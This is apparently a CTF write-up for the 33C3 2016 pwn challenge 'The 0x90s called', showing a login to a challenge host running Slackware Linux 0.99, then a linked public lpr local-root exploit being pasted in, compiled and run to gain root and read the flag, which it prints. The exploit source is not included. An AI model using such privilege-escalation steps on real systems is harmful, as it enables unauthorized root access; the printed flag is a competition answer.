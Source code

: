 ```yaml
---
title: '33C3 CTF 2016 -- The 0x90s called'
date: 2016-12-29 21:40
tags:
  - CTF
  - 33C3
  - Pwnable
  - local_root
categories:
  - write-ups
---
```

**Category:** pwn
**Points:** 150

<!-- more -->  

First we'll have to go to a web page to start our challenge session. The page will show us the port (same IP address with the web page) and the ID/password.

Once we connected to the remote host and login the machine, we'll found that we're inside a [Slackware Linux](http://www.slackware.com/):
```
$ nc 78.46.224.70 2323

Welcome to Linux 0.99pl12.

slack login: challenge
Password:challenge

Linux 0.99pl12. (Posix).
No mail.
slack:~$ uname -a
Linux slack 0.99.12 #6 Sun Aug 8 16:02:35 CDT 1993 i586
```

Later we'll found that there's a `flag.txt` inside the root directory:
```
slack:/$ ls -al /flag.txt
-r--------   1 root     root           36 Dec 27  1916 /flag.txt
```

Looks like we'll need a local root exploit to capture the flag. 

By googling **"slackware linux 0.99 local root exploit"**, we found a working [PoC](https://github.com/HackerFantastic/Public/blob/master/exploits/prdelka-vs-GNU-lpr.c). Now all we need to do is copy the PoC to the remote host, then compile & execute the exploit so we can escalate to root.

Although it looks simple, it still took me a while to complete the challenge, since there's no tool that can help us download the PoC to the host -- **no `wget`, no `curl`, not even `nc`!!** And the `vi` editor is just terrible!! Finally I decided to use `cat <<'EOF' >> test.c` + copy & paste to write the exploit into `test.c`.

After we compile & execute the local root exploit, we're able to escalate to root and get the flag:
```
slack:~$ gcc -o test test.c
slack:~$ ./test
[ Slackware linux 1.01 /usr/bin/lpr local root exploit
# id
id
uid=405(challenge) gid=1(other) euid=0(root) egid=18(lp)
# cat /flag.txt
cat /flag.txt
33C3_Th3_0x90s_w3r3_pre3tty_4w3s0m3
```

flag: `33C3_Th3_0x90s_w3r3_pre3tty_4w3s0m3`
